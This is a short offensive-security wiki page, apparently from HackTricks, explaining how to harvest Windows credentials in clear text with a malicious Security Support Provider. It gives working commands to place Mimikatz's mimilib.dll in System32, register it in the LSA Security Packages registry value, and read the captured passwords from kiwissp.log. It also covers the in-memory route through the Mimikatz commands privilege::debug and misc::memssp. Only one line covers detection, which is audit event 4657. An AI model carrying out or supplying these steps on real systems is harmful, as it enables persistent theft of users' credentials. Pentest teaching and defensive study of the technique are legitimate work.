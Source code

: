 # Custom SSP

{{#include ../../banners/hacktricks-training.md}}

### Custom SSP

[Learn what is a SSP (Security Support Provider) here.](../authentication-credentials-uac-and-efs/#security-support-provider-interface-sspi)\
You can create you **own SSP** to **capture** in **clear text** the **credentials** used to access the machine.

#### Mimilib

You can use the `mimilib.dll` binary provided by Mimikatz. **This will log inside a file all the credentials in clear text.**\
Drop the dll in `C:\Windows\System32\`\
Get a list existing LSA Security Packages:

```bash:attacker@target
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```

Add `mimilib.dll` to the Security Support Provider list (Security Packages):

```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```

And after a reboot all credentials can be found in clear text in `C:\Windows\System32\kiwissp.log`

#### In memory

You can also inject this in memory directly using Mimikatz (notice that it could be a little bit unstable/not working):

```powershell
privilege::debug
misc::memssp
```

This won't survive reboots.

#### Mitigation

Event ID 4657 - Audit creation/change of `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages`

{{#include ../../banners/hacktricks-training.md}}




